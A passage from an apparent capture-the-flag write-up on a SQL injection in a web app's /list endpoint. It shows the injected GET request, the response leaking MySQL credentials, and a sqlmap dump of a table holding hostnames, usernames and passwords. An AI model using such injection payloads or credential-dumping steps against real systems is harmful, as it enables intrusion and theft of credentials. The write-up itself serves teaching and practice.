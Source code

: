 @4yn found that this `/list` endpoint was vulnerable to SQL injection.

```
GET /list?type='OR'1'%3d'1'+AND+ID%3d2%3b-- HTTP/1.1
Host: 176.32.76.86:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/


```

Response received:

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 65
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Allow-Methods: GET,PUT,POST,DELETE,OPTIONS
Server: Werkzeug/2.0.2 Python/3.6.9
Date: Fri, 26 Nov 2021 06:28:46 GMT

[
  2,
  "mysql",
  3306,
  "lara",
  "ctf",
  "mysql",
  "t7/pjPgAa96XedDRQ5h5ZA\u003d\u003d"
]
```

I simply threw sqlmap at it and dumped the `items` table from the sqlite database.

```console
Table: items
[3 entries]
+----+------+--------------+---------+--------------+---------+----------+-----------+
| id | port | host         | user    | pass         | dbname  | hosttype | tablename |
+----+------+--------------+---------+--------------+---------+----------+-----------+
| 1  | 80   | 176.32.76.86 | <blank> | <blank>      | <blank> | www      | <blank>   |
| 2  | 3306 | mysql        | lara    | secretsecret | ctf     | mysql    | ctf       |
| 3  | 3306 | mysql        | root    | <blank>      | ctf     | mysql    | flag      |
+----+------+--------------+---------+--------------+---------+----------+-----------+
```

It appears that there is a separate host that runs a backend mysql database that has the `flag`
table. Also notable is that the mysql `root` user does not have a password. This will come in handy
later.
